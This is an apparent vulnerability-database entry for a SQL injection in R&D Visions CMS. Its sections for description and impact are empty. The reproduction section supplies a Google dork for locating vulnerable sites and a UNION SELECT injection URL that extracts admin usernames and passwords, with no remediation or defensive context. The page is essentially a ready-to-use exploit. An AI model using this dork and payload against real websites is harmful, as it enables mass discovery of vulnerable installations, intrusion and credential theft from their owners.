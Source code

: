 ```yaml
---
title: R&D Visions CMS SQL Injection
id: zhfly3101
---
```


# R&D Visions CMS SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

Google Dork:

```
intext:"Website by R&D Visions" inurl:.php?id= `intext:“CMS System by R&D Visions”` 
```

Demo:

```
https://www.0-sec.org/home.php?newid=53[SQLi] 
```

Injection:

```
https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--+ 
```